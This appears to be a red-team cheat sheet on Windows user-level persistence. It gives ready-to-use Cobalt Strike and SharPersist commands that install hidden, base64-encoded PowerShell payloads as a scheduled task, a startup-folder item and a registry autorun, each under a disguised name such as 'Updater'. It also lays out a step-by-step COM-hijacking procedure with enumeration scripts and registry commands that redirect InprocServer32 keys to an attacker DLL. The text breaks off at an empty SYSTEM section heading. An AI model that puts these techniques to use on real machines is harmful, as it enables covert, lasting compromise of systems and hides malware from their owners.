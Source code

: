 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Persistence
---
```


<span style="color:red">Host Persistence changes based on User or SYSTEM shells.</span>
&nbsp;
<span style="font-size: 35px; color:red"><b>Host Persistence (User)</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>Task Scheduler</b></span>
Like cronojobs in Linux.
From Powershell, encode the payload in base64 to avoid dealing with quotations.
On Windows:
```powershell
$str = '<example_powershell_command_i.e._download_cradle>'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
```
On Linux:
```powershell
set str '<example_powershell_command_i.e._download_cradle>'
echo -en $str | iconv -t UTF-16LE | base64 -w 0
```
Then from CobaltStrike:
```powershell
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <encoded_payload_b64>" -n "Updater" -m add -o hourly
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Startup Folder</b></span>
Applications, files and shortcuts within a user's startup folder are launched automatically when they first log in. 
From CobaltStrike:
```powershell
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <encoded_payload_b64>" -f "UserEnvSetup" -m add
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Registry Autorun</b></span>
AutoRun values in HKCU and HKLM allow applications to start on boot. 
From Cobalt Strike:
```powershell
cd C:\ProgramData
upload C:\Payloads\http_x64.exe
mv http_x64.exe updater.exe
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>COM Hijacks</b></span>
<span style="color:red"><b>HKCU and HKLM</b></span>
Finding instances of applications loading objects that for some reason don't exist anymore.
Using [ProcessMonitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from Sysinternals, look for <span style="color:red">RegOpenKey</span> operations where the Result is <span style="color:red">NAME NOT FOUND</span> and the Path ends with <span style="color:red">InprocServer32</span>.
Look for someone that's loaded semi-frequently (i.e. something that loads when a common application is started - Excel, Word, Outlook...).
Check that the entry you've chosen exists in HKLM, but not in HKCU:
```powershell
Get-Item -Path "HKLM:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"  <-- this should list the entry
Get-Item -Path "HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"  <-- this should return "Cannot find path..."
```
To exploit this, set HKCU path to the .dll exploit:
```powershell
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "<path_to_dll_exploit>"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```
To clean-up a COM hijack, simply remove the registry entries from HKCU and delete the DLL.
&nbsp;

<span style="color:red"><b>Task Scheduler</b></span>
Find tasks that use custom triggers to call COM objects:
```powershell
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      if ($Task.Principal.GroupId -eq "Users")
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}
```
Then search the task name in the Task Scheduler and check the Status and the Triggers > Details of the tasks listed with the script above.
```powershell
Get-ChildItem -Path "Registry::HKCR\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
```
Check that the entry you've chosen exists in HKLM, but not in HKCU:
```powershell
Get-Item -Path "HKLM:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize  <-- this should list the entry
Get-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"  <-- this should return "Cannot find path..."
```
Add a duplicate entry into HKCU pointing to our DLL (as above), and this will be loaded once every time a user logs in.
&nbsp;

---
&nbsp;
<span style="font-size: 35px; color:red"><b>Host Persistence (SYSTEM)</b></span>
&nbsp;

